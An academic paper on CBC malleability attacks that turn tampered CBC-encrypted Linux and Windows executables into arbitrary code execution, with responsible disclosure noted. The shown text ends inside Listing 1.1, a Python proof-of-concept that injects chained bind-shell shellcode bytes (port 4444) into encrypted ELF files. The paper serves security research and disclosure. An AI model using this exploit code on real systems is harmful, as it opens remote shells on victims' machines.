




{0}------------------------------------------------

# **ACE in Chains : How Risky is CBC Encryption of Binary Executable Files ? (Full Version)**

Rintaro Fujita<sup>1</sup> , Takanori Isobe<sup>1</sup>*,*<sup>3</sup> , and Kazuhiko Minematsu<sup>2</sup>

<sup>1</sup> University of Hyogo, Hyogo, Japan. frintaro@alumni.cmu.edu*??* , takanori.isobe@ai.u-hyogo.ac.jp <sup>2</sup> NEC, Kawasaki, Japan. k-minematsu@nec.com <sup>3</sup> National Institute of Information and Communications Technology, Koganei, Japan.

**Abstract.** We present malleability attacks against encrypted binary executable files when they are encrypted by CBC mode of operation. While the CBC malleability is classic and has been used to attack on various real-world applications, the risk of encrypting binary executable via CBC mode on common OSs has not been widely recognized. We showed that, with a certain non-negligible probability, it is possible to manipulate the CBC-encrypted binary files so that the decryption result allows an arbitrary code execution (ACE), which is one of the most powerful exploits, even without the knowledge of plaintext binary. More specifically, for both 32- and 64-bit Linux and Windows OS, we performed a thorough analysis on the binary executable format to evaluate the practical impact of ACE on CBC encryption, and showed that the attack is possible if the adversary is able to correctly guess 13 to 25 bits of the address to inject code. In principle, our attack affects a wide range of storage/file encryption systems that adopt CBC encryption. In addition, a manual file encryption using OpenSSL API (AES-256-CBC) is affected, which is presumed to be frequently used in practice for file encryption. We provide Proof-of-Concept implementations for Linux and Windows. We have communicated our findings to the appropriate institution and have informed to vendors as an act of responsible disclosure.

# **1 Introduction**

Encryption is a fundamental way to protect information from adversarial actions such as eavesdropping or tampering. Block ciphers, such as AES, have been playing the central role for it. For encryption of long messages using a block cipher, a mode of operation is naturally needed, and CBC (Ciphertext Block Chaining) is probably the most classical mode of operation for confidentiality of plaintext. Although CBC has a provable security, i.e., the security is reduced to the underlying block cipher, it only assures confidentiality under chosen-plaintext attacks which only consider the adversarial access to the encryption oracle. When the adversary is able to tamper with the ciphertext (which implies access

*<sup>??</sup>* Rintaro Fujita graduated from University of Hyogo and now belongs to NTT Corporation, Tokyo, Japan.

{1}------------------------------------------------

to decryption oracle), CBC mode is malleable in the sense that the result of decryption can be controlled, if (a part of) plaintext is known. This limitation of CBC mode has been known for decades, and has been exploited by numerous attacks against various real-world applications and protocols.

The malleability property of CBC mode was first exploited in the padding oracle attacks [\[36,](#page-19-0) [40,](#page-19-1) [43,](#page-19-2) [46\]](#page-19-3). After these attacks, several practical attacks on the real-world applications have been proposed, such as IPSec [\[22,](#page-18-0) [23\]](#page-18-1), SSH [\[10,](#page-17-0) [12\]](#page-17-1), APN.NET [\[24\]](#page-18-2), TLS [\[11,](#page-17-2) [13,](#page-18-3) [15,](#page-18-4) [45\]](#page-19-4), and XML [\[30\]](#page-19-5). These attacks exploit the interaction with decryption server as oracle access in order to reveal secret information.

There are two recent examples of CBC malleability attack. First, Efail [\[42\]](#page-19-6) was presented at USENIX Security 2018. It aims to recover the plaintext of encrypted email systems (OpenPGP and S/MIME). Efail exploits the so-called malleability gadget of CBC mode that enables creating chosen plaintext blocks by manipulating ciphertext blocks without accessing the decryption server. Similar techniques were used in the attack on IPSEC to bypass the encryption [\[41\]](#page-19-7). Second, PDF encryption has been attacked by Müller et al. at CCS 2019 [\[37\]](#page-19-8). Using a similar CBC gadget, the paper [\[37\]](#page-19-8) demonstrates that a large number of existing PDF viewers are vulnerable to the proposed attack and allow the adversary to exfiltrate the plaintext.

### **1.1 Our Contributions**

In this article, we study yet another risk of CBC encryption, rooted in its malleability. The target is binary executable files. Specifically, we investigated CBC encryption of binary files for major operating systems (Linux and Windows, both 32-bit and 64-bit), and showed that it is possible to craft the ciphertext so that the decryption of the crafted ciphertext immediately launches arbitrary code execution (ACE) attacks. Our attack requires no prior knowledge of plaintext to successfully mount an ACE attack with a non-negligible probability. We investigated the properties of executable file headers for Windows and Linux, for 32-bit and 64-bit versions, and evaluated the possibility to inject (an encrypted form of) arbitrary code into CBC-encrypted binaries. The headers of binary executables are not random and a part of them are essentially fixed, which we can use as a known plaintext. However, a suitable address to inject the arbitrary code cannot be determined with this partial information of header, hence some header bits must be correctly guessed. For each platform, we determine how many bits are practically needed to be guessed to successfully launch an ACE attack.

Our investigation reveals the overall success probability of ACE when the adversary is able to tamper with the CBC-encrypted binaries, without knowing the *contents of plaintext*. In fact, we find that this probability is not small for all the platforms we tested : we only need to guess at most 13 to 14 bits on Linux, and 24 to 25 bits on Windows OS. Moreover, they can be reduced to 10 to 11 bits and 18 bits under some practical conditions, respectively. We show the practicality of our attacks by presenting Proof-of-Concept implementations.

{2}------------------------------------------------

<span id="page-2-0"></span>**Table 1.** Comparison with existing attacks on CBC mode.

| Reference            | Target                                                | Attack Goal                    |
|----------------------|-------------------------------------------------------|--------------------------------|
| [43]                 | CAPTHA                                                | Bypass CAPTHA protection       |
| [22, 23, 41, 46]     | IPSec                                                 | Plaintext recovery             |
| [10, 12]             | SSH                                                   | Plaintext recovery             |
| [24]                 | APN.NET web application                               | Key recovery and impersonation |
| [11, 13, 15, 45, 46] | TLS                                                   | Plaintext recovery             |
| [30]                 | XML                                                   | Plaintext recovery             |
| [42]                 | OpenPGP and S/MIME                                    | Plaintext recovery             |
| [37]                 | PDF                                                   | Plaintext recovery             |
| This paper           | CBC-encrypted binary executable files                 | Arbitrary code execution       |
|                      | (e.g. Manual use of OpenSSL, Storage/file encryption) |                                |

Table [1](#page-2-0) shows the comparison with existing attacks on CBC mode. Table [2](#page-3-0) shows the summary of our investigation.

We remark that any storage/file encryption systems that use CBC encryption with no integrity check are potentially affected by our attacks, though such a potential risk of CBC malleability attack against storage encryption has been demonstrated, at least for some platforms (see below). We also note that clarifying the concrete threat model for each specific system, i.e., when and how the adversary accesses and manipulates the encrypted binaries in the system and how it is decrypted, is beyond our scope. We instead focus on the evaluation of generic risk of CBC-encrypted binaries. At least, our results give some insights into the risk of CBC encryption of clearly innocent binaries (say OS files) and storing it to the place that may be tampered by others, such as a public cloud. The most of the previous attacks on CBC has little implication in this scenario since their target is plaintext recovery. In this sense, our attack shows a non-trivial risk of CBC encryption on common platforms.

**Comparison with Existing Attacks on Binary Executables.** There are a few known attacks on binary executable files exploiting the weakness of encryption schemes [\[18,](#page-18-5) [27,](#page-18-6) [34\]](#page-19-9). Lell exploited the malleability of CBC mode to attack a Ubuntu 12.04 installation that is encrypted by the full-disk encryption LUKS (Linux Unified Key Setup), in which CBC mode is the default encryption algorithm [\[34\]](#page-19-9). Carefully analyzing the structure of the target binary file, he succeeded in injecting a full remote code execution backdoor. Böck showed a similar attack on CFB mode, and demonstrated an attack that injects a backdoor into the encrypted binary of Owncloud service [\[18\]](#page-18-5). Note that these attacks are dedicated to specific environments, namely LUKS and Owncloud, and do not necessarily imply the general risk of CBC encryption of binary executables.

By contrast, our attacks work on a wide range of CBC-encrypted binary executable files and do not rely on specific applications. This makes our attacks non-trivial and more realistic against real applications. For instance, the existing attack on LUKS [\[34\]](#page-19-9) requires an attacker to predict the location of the data blocks beforehand or to prepare the same installation media on a similar system. However, our attacks do not need any plaintext file contents. We use that executable files

{3}------------------------------------------------

<span id="page-3-0"></span>**Table 2.** Investigation Summary.

| Operating System    | Linux                                                     | Windows                      |
|---------------------|-----------------------------------------------------------|------------------------------|
| Sufficient amount   |                                                           |                              |
| of guess to succeed | 13)<br>13 bits (2                                         | 25)<br>25 bits (2            |
| in attacks to       |                                                           |                              |
| 32-bit binaries     |                                                           |                              |
| Sufficient amount   |                                                           |                              |
| of guess to succeed | 14)<br>14 bits (2                                         | 24)<br>24 bits (2            |
| in attacks to       |                                                           |                              |
| 64-bit binaries     |                                                           |                              |
| Practical amount of |                                                           |                              |
| guess to succeed in | 10)<br>10 bits (2                                         | 18)<br>18 bits (2            |
| attacks to 32-bit   |                                                           |                              |
| Practical amount of |                                                           |                              |
| guess to succeed in | 11)<br>11 bits (2                                         | 18)<br>18 bits (2            |
| attacks to 64-bit   |                                                           |                              |
| Success probability |                                                           |                              |
| after guessing a    | 99%                                                       | 67%                          |
| correct address     |                                                           |                              |
| Our attack against  | Does not succeed in attacking Succeeds even to algorithms |                              |
| CBC-encryption      | to algorithms which hide IV                               | which handle IV as a hidden  |
| algorithm           | such as OpenSSL.                                          | value.                       |
|                     | No need to know an                                        | No need to know an           |
| Note                | architecture (32- or 64-bit) as                           | architecture (32- or 64-bit) |
|                     | prerequisite.                                             | as prerequisite.             |

have fixed values in their header. Using this value as a known plaintext, we are able to perform an attack without knowing the plaintext file contents. An adversary is only required to know the OS type that the target program runs, which is easy to predict. Furthermore, our attacks are platform-independent to some extent. By crafting our injection code, the exploit code works against both 32-bit and 64-bit executable files. The attacker does not need to know if the target binaries run as 32- or 64-bit executable. Only the restriction is that the adversary has to guess a location to inject an arbitrary code with non-negligible probability. This fact makes our CBC malleability attack more general than existing researches.

### **1.2 Responsible Disclosure**

We have communicated the developer of file encryption software ED that was used to verify the correctness of our attacks (Section [5.2\)](#page-15-0). The software has been updated with a dedicated integrity check by HMAC. As a generic weakness of CBC mode applied to binary executables, we have also communicated our 

{4}------------------------------------------------

findings to JPCERT Coordination Center<sup>4</sup>. They helped facilitation of further notifications of our results to the appropriate vendors.

### 2 Background

#### <span id="page-4-1"></span>2.1 CBC Mode and Malleability

CBC mode is the most classical, and yet still popular mode of operation for encrypting a plaintext. Let  $E_K(*)$  be an encryption algorithm of n-bit block cipher. Given N plaintext blocks  $(m_0, m_1, \ldots, m_{N-1}), m_i \in \{0, 1\}^n$ , and the corresponding ciphertext blocks  $(c_0, c_1, \ldots, c_{N-1}), c_i \in \{0, 1\}^n$ , are computed as  $c_i = E_K(m_i \oplus c_{i-1})$  for  $0 \le i < N$ , where  $c_{-1} := \text{iv}$  is a randomly chosen n-bit initial vector.

As pointed out by a bunch of papers (see Introduction), it is well known that an adversary can manipulate some of plaintext blocks by tampering with corresponding ciphertexts without knowing the key. This attack is independent of the underlying block cipher and is feasible with knowledge of only one known plaintext block. Given the ciphertext blocks  $(c_0, c_1, \ldots, c_{N-1})$  and one known plaintext block  $m_x$  ( $0 \le x < N$ ), a target plaintext block  $m_i$  can be manipulated to  $m_{\text{target}}$ , which the adversary can choose, such that the adversary modifies two ciphertext blocks  $c_{i-1}$  and  $c_i$  as  $c'_{i-1} = m_{\text{target}} \oplus m_x$  and  $c'_i = c_x$ , and then the target  $m_i$  is computed as follows during the decryption.

$$m_i = E_K^{-1}(c_x) \oplus (m_{\text{target}} \oplus m_x) = m_x \oplus m_{\text{target}} \oplus m_x = m_{\text{target}},$$

where  $E_K^{-1}(*)$  is the decryption algorithm of the block cipher. In this case, the adversary fully controls the value of the target block  $m_i$ , however, the previous block  $m_{i-1}$  is broken as  $m_{i-1} = E_K^{-1}(m_{\text{target}} \oplus m_x) \oplus c_{i-1}$ , because  $E_K^{-1}(m_{\text{target}} \oplus m_x)$  is unknown value. Figure 1 illustrates the malleability of CBC mode.

### 2.2 Executable File Basis

An executable file is a compiled program written in a machine language running on operating systems. Linux and Windows need different machine codes to run programs. Also, each CPU architecture requires different codes. In this article, we focus on x86-64 and x86 Windows binaries, and x86 and x86-64 executable files on Linux operating systems.

Sections Related to Attack. Each executable file has a header area, a data area, and a code area. We focus on the header and the code area related to the attack. A program code itself is stored in .text area in the executable files and operating systems execute the code in this area. The header section contains meta information, such as entry point, which is the address at which the program starts, target operating system, and the size of the header information. In our attack, we inject a shellcode into .text area to tamper with the action of target executable files and use the header area as a known plaintext.

<span id="page-4-0"></span><sup>4</sup> https://www.jpcert.or.jp/english/

{5}------------------------------------------------



<span id="page-5-0"></span>Fig. 1. Malleability of CBC Mode.

Shellcode. Shellcode is an attack payload in order to run an arbitrary code written in a machine language. A shellcode enables an attacker to invoke arbitrary commands. It is injected by several ways such as *stack smashing* [39]. Typically, these attacks are dynamically performed on running programs. In our attack, however, we directly insert a shellcode before executing the program using the method described in Section 2.1.

### 3 Our Attack

In this section, we show the possibility of crafting ciphertext when the target files are binary executable and encrypted with CBC mode. Our results show that, when an adversary has a chance to access and tamper with such encrypted files, he can mount an ACE attack with no prior knowledge of the encryption key and the plaintext. Here, we describe our attack which abuses the risk of malleability in CBC encryption by using fixed header values in the binary files as a known plaintext.

By mounting the CBC malleability attack, the previous block of the target block will be broken (Section 2.1). This limitation makes it difficult to create useful payloads which are longer than a block. However, the structure of executable files allows the attacker to overcome the restriction. By dividing a payload (i.e. shellcode) into multiple pieces and injecting small snippets which end with jmp instruction between the pieces, the snippets jump to other pieces, which enables the attacker to implement the whole attack code. This attack is called *Jump Oriented Programming* [17,19].

{6}------------------------------------------------

Figure [2](#page-6-0) illustrates an example of the attack. Bold characters enclosed in a four-sided figure represent tampered codes. Assuming that function func2 is not executed before func3, the attacker can put the first shellcode snippet at the beginning of func3. The broken block by the first snippet does not affect any code executions since it will not be executed by the tampered program. The jmp instruction used at the end of the snippet jumps over another broken block by the second piece of the shellcode and lands in two blocks ahead. By repeating this sequence of jmp instructions, the attacker is able to generate a full attack code.



<span id="page-6-0"></span>**Fig. 2.** Shellcode Chain.

The attacker does not have to calculate absolute addresses of a target program by using a relative jmp instruction. Further, this attack is completed before the target program starts execution, therefore the attack is not influenced by security mitigations implemented by operating systems and programs, such as Stack Smashing Protector [\[21\]](#page-18-9), DEP [\[14\]](#page-18-10) or NX [\[20\]](#page-18-11), PIE [\[9\]](#page-17-3), RELRO [\[32\]](#page-19-11), and ASLR [\[7,](#page-17-4)[16\]](#page-18-12). The attack requires the attacker only to guess the injection location to insert attack codes.

### **3.1 Attack Conditions**

The attack described above requires some conditions to be successful. An attacker has to inject his payload into a target block that previous broken block does not affect the code execution, i.e., the previous block must not be executed before the target block. We investigated two operating systems, Linux and Windows, and each had its additional conditions. In particular, the attack does not work against encryption algorithms that hide IV value, such as OpenSSL[5](#page-6-1) (see Section [5.1\)](#page-14-0), for Linux binaries and the attacker needs to guess the fourteen bits to successfully

<span id="page-6-1"></span><sup>5</sup> <https://www.openssl.org/>

{7}------------------------------------------------

<span id="page-7-0"></span>**Table 3.** ELF Identification.

| Name                      | Purpose            | Value                                                    |
|---------------------------|--------------------|----------------------------------------------------------|
| EI_MAG0                   | Magic number       | 0x7f                                                     |
| EI_MAG1                   | Magic number       | 'E'                                                      |
| EI_MAG2                   | Magic number       | 'L'                                                      |
| EI_MAG3                   | Magic number       | 'F'                                                      |
| EI_CLASS                  | File class         | 1 for 32-bit and 2 for 64-bit                            |
| EI_DATA                   | Data encoding      | 1 for little endian and 2 for big endian                 |
| EI_VERSION                | File version       | Must be 1                                                |
| EI_OSABI                  |                    | Operating system/ Identification of a compiling machine. |
|                           | ABI identification | 0 in most cases.                                         |
|                           |                    | (default is 0 but sometimes different)                   |
| EI_ABIVERSION ABI version |                    | 0 if EI_OSABI is 0                                       |
| EI_PAD                    | Start of padding   | Reserved and set to 0                                    |
| EI_NIDENT                 | Size of e_ident    | Reserved and set to zeroes                               |
|                           | (six bytes)        |                                                          |

inject his codes. For Windows, on the other hand, the attack succeeds even with encrypted files by OpenSSL when he correctly guesses twenty-five bits of an injection address.

### **3.2 Linux**

We studied the feasibility of the proposed attack on multiple Linux installations : Ubuntu 18.04 LTS 64-bit, CentOS 7.6 64-bit, Ubuntu 16.04 LTS 32-bit, and CentOS 6.10 32-bit.

*Known Plaintext in Header.* According to ELF and ABI Standards [\[4\]](#page-17-5), the first sixteen-byte block of Linux executable files (a.k.a. ELF files) is *ELF Identification* and it is almost fixed. Table [3](#page-7-0) shows the *ELF Identification* block.

For example, the first block of the most of x86 executable files is

### 7f454c46010101000000000000000000

and that of x86-64 is 7f454c46020101000000000000000000. The fifth and the eighth bytes have a possibility to be changed. Our attack works using this block as a known plaintext by crafting our shellcode not to use these changeable bytes.

In this case, the attack fails against the ELF files encrypted by OpenSSL because the attack requires a previous block (i.e. IV) and the IV value is hidden for third party users. The attack works to files encrypted by other algorithms which use known IV.

*Shellcode for 32-bit and 64-bit Platforms.* Shellcodes for 32-bit and for 64-bit are different (e.g., a shellcode for 64-bit does not work on 32-bit machines). However, putting a polyglot conditional branch at the beginning of the shellcode enables

{8}------------------------------------------------

<span id="page-8-0"></span>**Table 4.** Polyglot Conditional Branch.

| Opcode                 |              | x86 Mnemonic x86-64 Mnemonic |
|------------------------|--------------|------------------------------|
| 31c0                   | xor eax, eax | xor eax, eax                 |
| 40                     | inc eax      | rex xchg eax,eax             |
| 90                     | nop          | (which means nop)            |
| 85c0                   |              | test eax, eax test eax, eax  |
| 0f855e030000 jne 0x364 |              | jne 0x364                    |

the code workable [\[26,](#page-18-13) [29\]](#page-19-12). As an example, putting 31c0409085c00f855e030000 + x86-64 shellcode + x86 shellcode makes a polyglot shellcode working on x86 and x86-64. Table [4](#page-8-0) describes the conditional branch we use. Here, the instruction sequence "test eax, eax; jne 0x364" means "jump if eax register is not zero". In this case, x86-64 machine interprets that eax is zero and executes x86-64 shellcode placed right after, yet x86 interprets eax as a non-zero value (i.e., 0x0 + 0x1 = 0x1), which results in jumping into an x86 shellcode located in 0x364 ahead. This method makes the shellcode universal.

*Considering Unintended Known Plaintext Values.* The fifth and the eighth bytes in the known plaintext may change as described in Table [3,](#page-7-0) which makes the part of our shellcode unknown values. To avoid this issue, we craft our shellcode not to use these bytes. Using a jmp instruction at the first two bytes skips the uncertain bytes. We chain meaningful shellcode snippets by using six bytes in each block as Figure [3](#page-8-1) shows.



<span id="page-8-1"></span>**Fig. 3.** Skipping Unknown Bytes.

*Outline of Shellcode.* Our shellcode is a general TCP bind shell shellcode for both 32- and 64-bit platforms. It first creates a socket and listens for a TCP connection from an attacker on port 4444. It spawns a shell by execve syscall after the attacker established a connection. Data streams (STDIN, STDOUT, and STDERR) are redirected to the established connection by dup2 syscalls. The original shellcode size is 251 bytes and the total blocks occupied by the snippets including the introduced jmp mechanism is 96 blocks. We used available shellcodes at shellcodes database [\[8\]](#page-17-6) as the base of our payloads.

*Injection Point.* Linux has suitable addresses to inject arbitrary code. *Entry point* – an address that program starts – is the address that an adversary does

{9}------------------------------------------------

<span id="page-9-0"></span>**Table 5.** PE MS-DOS Header (Second Block).

| Type        | Name                   | Description                                           | Value                        |
|-------------|------------------------|-------------------------------------------------------|------------------------------|
| WORD e_sp   |                        | Initial SP value                                      | 0x00B8 (Sometimes different) |
| WORD e_csum |                        | Checksum                                              | Zeroes                       |
| WORD e_ip   |                        | Initial IP value                                      | Zeroes                       |
| WORD e_cs   |                        | Initial (relative) CS value                           | Zeroes                       |
|             |                        | WORD e_lfarlc File address of relocation table 0x0040 |                              |
| WORD e_ovno |                        | Overlay number                                        | Zeroes (Sometimes different) |
|             | WORD e_res[4] Reserved |                                                       | Zeroes (The last two bytes   |
|             |                        |                                                       | are sometimes different)     |

not need to care about a previous broken block caused by the exploit. ELF files have additional useful addresses to inject payloads such as \_start and \_ libc\_csu\_init functions which are executed before main function, main@@Base, \_\_libc\_start\_main and other functions. These functions start with sixteen-byte aligned address in most cases, which means that the attacker can insert the snippet of the shellcode from the beginning of a target block. We use one of these addresses to evaluate a success probability to inject our payload in Section [4.1.](#page-10-0)

ELF files do not have fixed suitable addresses to inject payloads, and the addresses depend on each executable file. Hence, the adversary has to guess the address to start his shellcode.

*Compilers.* We looked into ELF files compiled by gcc and clang and both of them had the same characteristics described above – we succeeded in injecting our payloads to ELF files compiled by both compilers.

# <span id="page-9-1"></span>**3.3 Windows**

We used Windows 10 version 1903 and ran 64-bit and 32-bit executable files.

*Known Plaintext in Header.* Executable binary files on Windows (a.k.a. PE files) have several fixed values in their header which can be used as a known plaintext. For instance, Table [5](#page-9-0) shows the second sixteen bytes of a PE file and their values. These elements are defined in a \_IMAGE\_DOS\_HEADER structure in *WinNT.h* included in Microsoft SDK. They are almost fixed values.

Unlike Linux, our attack works even against OpenSSL and other encryption algorithms which hide IV information since we have enough information to succeed in the attack without IV – the first cipher block and the second known plaintext block.

*Shellcode for 32-bit and 64-bit Platforms.* We use the same polyglot conditional branch as we described in the Linux part to make the shellcode universal.

{10}------------------------------------------------

*Outline of Shellcode.* The shellcode opens a calculator by CreateProcessA. The original shellcode is 402 bytes and the total blocks used by the snippets including the jmp instructions is 66 blocks. The base of the payloads are obtained from Packet Storm [\[6\]](#page-17-7) and Metasploit Framework [\[5\]](#page-17-8).

*Injection Point.* We did not find convenient and stable functions as the location to inject our shellcode. Hence, we tried *entry point* and the beginning of other functions as the target address. *Entry point* is defined in a header and ensures that the previous block is not executed, but not sixteen-byte aligned. As well as the case of Linux, the attacker needs to guess the address for successful exploits since the target address is not a fixed value. Here, jmp instructions in the snippets of our payload require two bytes. Hence, the attack fails in case the least-significant byte of the injection address is 0xf because of a too-small space to insert the first jmp instruction.

# **4 Proof of Concept**

In this section, we implement a sample encryption/decryption program using AES-CBC and PKCS 7 padding [\[31\]](#page-19-13) with no integrity check written in python 3 (Appendix [A\)](#page-20-0). We use this program in Section [4.1](#page-10-0) as an encryption/decryption example. We have released our sample program and exploit code on GitHub [\[1\]](#page-17-9) in addition to listings in this paper.

# <span id="page-10-0"></span>**4.1 Linux**

Listing [1.1](#page-10-1) is an exploit code for x86 and x86-64 Linux binaries. The target program opens port 4444 and starts waiting for a bind shell by injecting a shellcode to a successful address.

**Listing 1.1.** PoC for Linux

```
1 #!/usr/bin/env python3
2 import sys, binascii
3 block_size = IV_size = 0x10
4
5 def calc_X(C1, known_plain):
6 return format(int(C1, 16) ^ int(known_plain, 16), 'x').zfill(
      block_size * 2)
7
8 def construct_c_prime(X, Mtarget):
9 return binascii.unhexlify(format(int(X, 16) ^ int(Mtarget, 16), 'x')
      .zfill(block_size * 2))
10
11 def padding(s, pad):
12 return binascii.hexlify(pad).zfill(2) * (block_size - len(binascii.
      unhexlify(s)))
13
14 def adjust_shell(Mtargets, mod):
15 for i in range(len(Mtargets)):
16 m = Mtargets[i]
17 m += padding(m, b'\x90')
```

{11}------------------------------------------------

```
18 Mtargets[i] = m
19 if mod == 15:
20 print("[-] Too small space to inject the first code")
21 quit()
22 if mod > 0:
23 snippet = b"90" * (block_size - mod - 2) + b"eb10"
24 Mtargets.insert(0, snippet)
25 return Mtargets
26
27 def main(argv):
28 if len(argv) != 2:
29 print("[-] Usage:\n\t$ %s [encrypted file]" % argv[0])
30 quit()
31
32 try:
33 f = open(argv[1], 'rb')
34 content = f.read()
35 f.close()
36 except IOError:
37 print("[-] Failed to open the file.")
38 quit()
39
40 try:
41 entry_point = int(input("The location to inject: "),16)
42 except ValueError:
43 print("[-] Input hex value. e.g., 0x4f0")
44 quit()
45
46 # The first block (M1hex[4] and M1hex[7] may be changed)
47 M1hex = b"7f454c46020101000000000000000000"
48 Y1 = content[IV_size:IV_size+block_size] # The first cipher block
49 Mtargets = [b"eb0690909090909031c0409085c0eb10",b"
      eb069090909090900f855e030000eb10",b"
      eb0690909090909031c031db31d2eb10",b"
      eb06909090909090b00189c6fec0eb10",b"
      eb0690909090909089c7b206b029eb10",b"
      eb069090909090900f05934831c0eb10",b"
      eb0690909090909050680201115ceb10",b"eb0690909090909088442401eb12",b
      "eb069090909090904889e6b210eb11",b"eb0690909090909089dfb0310f05eb10
      ",b"eb06909090909090b00589c689dfeb10",b"
      eb06909090909090b0320f0531d2eb10",b"
      eb0690909090909031f689dfb02beb10",b"eb069090909090900f0589c7eb12",b
      "eb069090909090904831c089c6eb11",b"eb06909090909090b0210f05fec0eb10
      ",b"eb0690909090909089c6b0210f05eb10",b"
      eb06909090909090fec089c6b021eb10",b"eb069090909090900f054889c3eb11",
      b"eb06909090909090b86e2f7368eb11",b"eb0690909090909048c1e020eb12",b
      "eb069090909090904889c2eb13",b"eb06909090909090b8ff2f6269eb11",b"
      eb069090909090904801d04893eb11",b"eb0690909090909048c1eb0853eb11",b
      "eb069090909090904831d24889e7eb10",b"eb069090909090904831c05057eb11
      ",b"eb069090909090904889e6b03beb11",b"
      eb06909090909090b03b0f0531c0eb10",b"
      eb0690909090909031db31c931d2eb10",b"eb06909090909090b066b30151eb11",
      b"eb069090909090906a066a016a02eb10",b"
      eb0690909090909089e1cd8089c6eb10",b"eb06909090909090b066b30252eb11",
      b"eb069090909090906668115c6653eb10",b"
      eb0690909090909089e16a105156eb10",b"
      eb0690909090909089e1cd80b066eb10",b"eb06909090909090b3046a0156eb11",
      b"eb0690909090909089e1cd80b066eb10",b"
      eb06909090909090b305525256eb11",b"eb0690909090909089e1cd8089c3eb10",
